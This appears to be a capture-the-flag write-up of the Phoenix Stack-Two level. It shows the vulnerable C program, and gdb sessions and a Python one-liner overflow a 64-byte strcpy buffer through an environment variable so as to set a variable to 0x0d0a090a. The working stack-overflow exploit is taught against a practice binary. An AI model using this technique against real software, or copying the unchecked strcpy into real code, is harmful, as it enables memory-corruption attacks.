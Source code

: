 ```yaml
---
title: Phoenix Stack-Two 
author: Marius Kimmina
date: 2019-10-20 14:10:00 +0800
categories: [CTF, Binary Exploitation]
tags: [Buffer Overflow]
published: true
---
```


### 0x0. Introduction
For a full introduction to this series and setup description please look at the first post (Phoenix Stack-Zero and One).
In this level we have to mess with environment variables and unprintable ascii characters. Also instead of "gets" this program
uses "strcpy" to write to the buffer-variable. 

### 0x1. Taking a look at the source code

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

The difference to Stack-one is that we have to set an environment variable named ExploitEducation as described here:

```c
ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }
```

and the value of this variable will be written into the buffer-variable. I'm going to quote the bugs section for "strcpy" here, it has essentially the same problem as "gets".

```
If the destination string of a strcpy() is not large enough, then  any‐
thing  might  happen.   Overflowing  fixed-length  string  buffers is a
favorite cracker technique for taking complete control of the  machine.
Any  time  a  program  reads  or copies data into a buffer, the program
first needs to check that there's enough space.  This may  be  unneces‐
sary  if you can show that overflow is impossible, but be careful: pro‐
grams can get changed over time, in ways that may make  the  impossible
possible.
```


### 0x2 Exploiting the program

Lets start by simply trying to execute the program

```bash
$ /opt/phoenix/amd64/stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

There are multiple ways to set an environment variable but since we want to take a look at it in gdb anyway, lets do it there

```
$ gdb /opt/phoenix/amd64/stack-two
(gdb) set environment ExploitEducation Awesome
```

Once this is done you run the program (still inside gdb because changing environment variables in gdb has no effect outside of gdb)

```
(gdb) run
Starting program: /opt/phoenix/amd64/stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

as you can see the prompt for setting the environment variable is gone. Now we need to figure out the right value for our ExploitEducation-variable.
First we need to know at what point exactly we start writing to the "changeme" variable. To accomplish that, use a very long and recognisable pattern.
I always suggest the alphabet. 

```
(gdb) set environment ExploitEducation AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZ
(gdb) run
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x51515151, we want 0x0d0a090
```

Since 0x51 is the hexadecimal equivalent to the letter Q, we know that we have to replace "QQQQ" with the correct input.  
The big problem here is that "0x0d0a090a" are non-printable characters thus we can't just append them to our alphabet string.
This took we quite some time to find a working solution and I would have liked to find a way to do it without leaving gdb but 
I could not.  
So here is my solution for this challenge setting the environment variable with our alphabet string followed by the hexadecimal value decoded in python:


```
$ export ExploitEducation=`python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP" + ("0a090a0d").decode("hex")'`
$ /opt/phoenix/amd64/stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```



